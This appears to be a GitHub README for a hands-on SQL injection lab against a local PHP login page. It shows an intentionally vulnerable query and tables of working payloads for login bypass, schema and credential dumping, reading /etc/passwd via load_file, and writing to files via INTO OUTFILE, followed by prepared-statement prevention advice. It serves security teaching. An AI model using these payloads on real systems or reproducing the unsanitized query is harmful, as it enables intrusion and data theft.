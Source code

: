 # 💉 SQL Injection (SQLi) Lab – Exploiting and Bypassing Insecure Queries

## 🎯 Objective  
Learn how to exploit SQL injection (SQLi) in a vulnerable web application to bypass authentication, extract data, and write output to a file. Understand how unsanitized inputs lead to full database compromise.

---

## 🛠️ Tools Used  
- Apache Web Server  
- PHP login form (`index.php`)  
- Firefox (localhost)  
- Terminal (vi editor, gedit)  
- Kali Linux / Ubuntu

---

## 🧪 Lab Setup & Navigation

```bash
cd /var/www
ls
cd sqlinjection/
ls
sudo vi index.php
```

Start/restart web server:
```bash
sudo service apache2 start
sudo service apache2 restart
```

Open the site in browser:
```
http://localhost/sqlinjection/index.php
```

---

## 🔍 Vulnerable SQL Code (Inside `index.php`)
```php
$sql = "SELECT * FROM students WHERE uid = $_GET['uid']";
```

🚨 This is vulnerable: directly inserting unsanitized user input.

If user inputs:
```
2019 OR 1=1
```
The query becomes:
```sql
SELECT * FROM students WHERE uid = 2019 OR 1=1;
```
✅ Returns all students (authentication bypassed).

---

## 🧪 Manual SQL Injection Payloads

| Input                    | Purpose                        |
|-------------------------|--------------------------------|
| 2019 OR 1=1             | Return all rows (true query)   |
| `' OR '1'='1`           | Classic auth bypass            |
| `' OR 1=1 --`           | Bypass and comment rest        |
| `' OR '1'='1' --`       | Bypass with double quotes      |

---

## 🔓 Login Bypass Scenarios

**If username is known but password is not:**  
- Input this in **Password** field:  
  ```
  ' OR '1'='1
  ```

**If neither username nor password is known:**  
- Input this in **Username** field:
  ```
  ' OR '1'='1'#
  ```

✅ This logs you in as the first user in the database.

---

## 💾 Writing Output to File (Advanced SQLi)

**Payload:**
```sql
' or '1'='1' into outfile '/tmp/sql.txt'#
```

Use in browser:
```
http://localhost/sqlinjection/index.php?uid=' or '1'='1' into outfile '/tmp/sql.txt'#
```

Check output:
```bash
cat /tmp/sql.txt
ls /tmp/
sudo gedit /tmp/sql.txt
```

⚠️ Works only if MySQL has **FILE** privilege and permission to write to `/tmp`.

---

## 🧠 Useful SQLi Payloads

| Payload                                                     | Purpose                           |
|-------------------------------------------------------------|-----------------------------------|
| `' OR 'a'='a`                                               | Always true                       |
| `' UNION SELECT null, version() --`                        | Show database version             |
| `' UNION SELECT null, user() --`                           | Show DB user                      |
| `' UNION SELECT table_name, null FROM information_schema.tables --` | Dump all table names     |
| `' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users' --` | Dump column names   |
| `' AND 1=0 UNION SELECT null, load_file('/etc/passwd') --` | Attempt to read system file       |
| `' OR 1=1 LIMIT 1 OFFSET 1 --`                              | Pagination for second user        |

---

## 🛡️ Secure Coding – Prevention

✅ Use **prepared statements**:
```php
$stmt = $pdo->prepare("SELECT * FROM students WHERE uid = :uid");
$stmt->bindParam(':uid', $_GET['uid']);
$stmt->execute();
```

📌 Additional protection:
- Validate and sanitize input  
- Escape special characters  
- Disable error details on production  
- Use least-privileged database accounts


